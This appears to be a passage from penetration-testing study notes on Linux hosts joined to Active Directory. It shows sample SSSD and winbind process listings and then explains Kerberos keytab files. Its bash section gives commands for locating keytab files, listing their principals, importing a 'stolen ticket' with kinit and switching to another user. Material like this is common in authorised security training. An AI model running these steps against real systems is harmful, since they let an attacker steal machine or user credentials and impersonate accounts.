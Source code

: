 	# The results if the system is integrated with AD using SSSD service.
	root     29912     1  0  2017 ?        00:19:09 /usr/sbin/sssd -f -D
	root     29913 29912  0  2017 ?        04:36:59 /usr/libexec/sssd/sssd_be --domain 2daygeek.com --uid 0 --gid 0 --debug-to-files
	root     29914 29912  0  2017 ?        00:29:28 /usr/libexec/sssd/sssd_nss --uid 0 --gid 0 --debug-to-files
	root     29915 29912  0  2017 ?        00:09:19 /usr/libexec/sssd/sssd_pam --uid 0 --gid 0 --debug-to-files
	root     31584 26666  0 13:41 pts/3    00:00:00 grep sssd
	
	# The results of if the system is integrated with AD using winbind service.
	root       676 21055  0  2017 ?        00:00:22 **winbindd**
	root       958 21055  0  2017 ?        00:00:35 winbindd
	root     21055     1  0  2017 ?        00:59:07 winbindd
	root     21061 21055  0  2017 ?        11:48:49 winbindd
	root     21062 21055  0  2017 ?        00:01:28 winbindd
	root     21959  4570  0 13:50 pts/2    00:00:00 grep -i winbind\|sssd
	root     27780 21055  0  2017 ?        00:00:21 winbindd
	```
---
# Keytab and ccache files
## Keytab

- A **persistent file** that stores **Kerberos principal names and their long-term encryption keys**.
- Used to authenticate to various remote systems using Kerberos without entering a password.
- To use a keytab file, we must have read and write (rw) privileges on the file.
- See [Keytab](https://kb.iu.edu/d/aumh) for more info.

> A Linux domain joined machine needs a ticket. The ticket is represented as a keytab file located by default at `/etc/krb5.keytab` and can only be read by the root user. If we gain access to this ticket, we can impersonate the computer account.
#### Finding Keytab Files
``` bash
# Search for it in the system by its name
$ find / -name *keytab* -ls 2>/dev/null
# Check the scheduled scripts and review it to see if it's using kinit which allows interaction with kerberos
$ crontab -l
```
#### Abusing KeyTab Files
Impersonating a User with a keytab
``` bash
# Confirm which ticket we are using
$ klist
# Listing keytab file information (ex: principal name and domain name)
$ klist -k -t /opt/specialfiles/user.keytab
# Import the stolen ticket, use the name of the principal as shown in klist because kinit is case sensitive 
$ kinit <principal> -k -t /opt/specialfiles/user.keytab
# Make sure the ticket has changed
$ klist
# log in as another user
$ su - user@admin
```
